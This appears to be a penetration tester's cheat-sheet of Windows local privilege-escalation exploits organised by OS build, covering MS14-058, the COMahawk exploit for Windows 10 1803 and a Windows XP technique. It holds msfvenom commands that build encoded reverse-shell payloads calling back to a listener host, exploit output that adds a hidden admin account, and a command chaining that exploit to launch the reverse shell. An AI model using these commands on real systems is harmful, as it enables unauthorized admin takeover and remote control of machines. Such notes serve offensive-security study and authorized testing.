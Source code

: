 # Build Exploits

### Win 8.1 PRO Build 9600 - x64

ms14-058 - # Windows 8.0 - 8.1 x64 TrackPopupMenu Privilege Escalation (MS14-058)

https://gist.github.com/AfroThundr3007730/088b2e2ec4ff1eba295e073d1428d85d

SHELLCODE ->

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=80 -f c
```

### Microsoft Windows 10 Build 1803 < 1903 - 'COMahawk' Local Privilege Escalation&#x20;

```
$ locate windows/local/47684.md
/usr/share/exploitdb/exploits/windows/local/47684.md
```

```
# System version number

winver - 1803 OS Build 17134.112

REG QUERY "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v ReleaseId

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion
    ReleaseId    REG_SZ    1803

$ searchsploit 1803

# Microsoft Windows 10 Build 1803 < 1903 - 'COMahawk' Local Privilege Escalation 
| windows/local/47684.md

$ locate windows/local/47684.md
/usr/share/exploitdb/exploits/windows/local/47684.md

C:\Users\test\Desktop>COMahawk.exe
[\] Progress:  1/9 2/9 3/9 4/9 5/9 6/9 7/9 8/9 9/9
[+] Hopefully Tomahawk:RibSt3ak69 is added as an admin.

$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=80 -f exe -e x86/shikata_ga_nai -i 8 -o rev.exe

COMahawk.exe "\Users\test\Desktop\rev.exe &"
```

### Win XP SP0/SP1

https://sohvaxus.github.io/content/winxp-sp1-privesc.html

accesscheck.exe - Old Version - https://xor.cat/assets/other/Accesschk.zip
